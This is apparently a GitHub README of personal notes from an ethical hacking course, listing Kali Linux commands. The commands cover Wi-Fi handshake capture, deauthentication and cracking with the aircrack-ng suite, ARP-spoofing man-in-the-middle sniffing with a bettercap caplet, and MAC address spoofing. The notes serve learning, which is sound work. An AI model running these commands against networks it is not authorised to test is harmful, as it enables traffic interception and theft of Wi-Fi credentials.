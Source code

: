 # udemy-ethical_hacking_kali_linux
## Udemy - Ethical Hacking With Python, JavaScript and Kali Linux  

### In Kali Linux use next introduction tools:  
netdiscover -i eth0 -r 10.0.2.1/24  
zenmap     --> better tool to scan the network (uses nmap as a core command)  
airmon-ng  --> wlan tool that makes possible to cahange status from Managed to Monitor mode  
iwconfig wlan0 mode monitor  --> manually change mode to Monitor (used after executing "ifconfig wlan0 down/up")  
  
fern --> GUI application to crack WI-FI  
airodump-ng --bssid --channel 6 --write demo-handshake wlan0mon  --> capturing connection handshake  
aireplay-ng --deauth 4 -a (BSSID) -c (STA) wlan0mon  --> force disconnect station and capture with previous app WPA handshake  
aircrack-ng demo-handshake-01.cap -w wordlist  --> will crack demo-handshake against generated wordlist  
  
### In Kali linux try introduction for "bettercap":  

sudo bettercap  --> enter to the console of application  
help            --> to see which odules are available/enabled  
help net.probe  --> will send UDP packets to probe the network on connected devices  
net.probe on    --> turn it on  
help arp.spoof  -->  
set arp.spoof.fullduplex true   --> Will attack the target and the Gateay, this will ensure that if there is protection in GTW, the attack will succeed.  
set arp.spoof.targets 10.0.2.4  --> Adding the target to monitor.  
arp.spoof on    --> enable the spoof service  
set net.sniff.local true  --> If true, will consider packets from/to computer as local.  
net.sniff on    --> enable the sniffing service  
  
  
vim sniff.cap  
----------------------------  
net probe on  
set arp.spoof.fullduplex true  
set arp.spoof.targets 10.0.2.4  
set net.sniff.local true  
arp.spoof on  
net.sniff on  
----------------------------  
bettercap -iface eth0 -caplet sniff.cap  --> will do manual job as auto.  
  
### To change MAC Address of your adapter do next:  
ifconfig wlan0 down  
ifconfig wlan0 hw ether 00:11:22:33:44:55  
ifconfig wlan0 up  

